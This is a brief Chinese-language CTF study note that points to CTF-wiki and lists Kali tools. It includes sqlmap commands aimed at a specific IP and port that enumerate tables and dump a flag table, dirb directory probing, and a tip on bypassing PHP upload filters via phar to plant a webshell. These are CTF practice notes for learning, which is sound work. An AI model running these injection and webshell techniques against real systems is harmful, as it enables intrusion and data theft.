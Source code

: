 # CTF相关知识


## CTF概念


### 1.基本概念
https://github.com/ctf-wikiÂ

### 2.本地运行

```

docker run -d --name=ctf-wiki -p 4100:80 ctfwiki/ctf-wiki

```



## 过程类

### 工具方面

#### kali linux平台

1. httrack 下载整个网站

2. dirb 探测网站信息

dirb target_url file_config.txt -x file_extend.txt

target_url是目标url
file_config.txt 是指文件名
file_extend.txt 文件后缀，比如zip

3. sql注入

python ./sqlmap.py -u "http://150.158.88.26:27483/?id=1" --tables --random-agent

python ./sqlmap.py -u "http://150.158.88.26:27483/?id=1" -D scheme -T table –-columns

python ./sqlmap.py -u "http://150.158.88.26:27483/?id=1" -D security -T flag -C id,flag --dump


4. webshell

php上传时，如果后端做了文件格式限制，可以通过 phar方式
https://blog.csdn.net/xiaorouji/article/details/83118619


## 其他注意

在使用sqlmap 去注入目标网站时，应该是通过我司的网络出口，所以有安全防火墙挡住了，安全防火墙判断了 xss的规则，封杀了。

建议使用本机，局域网搭建ctf考核系统






## 相关网站
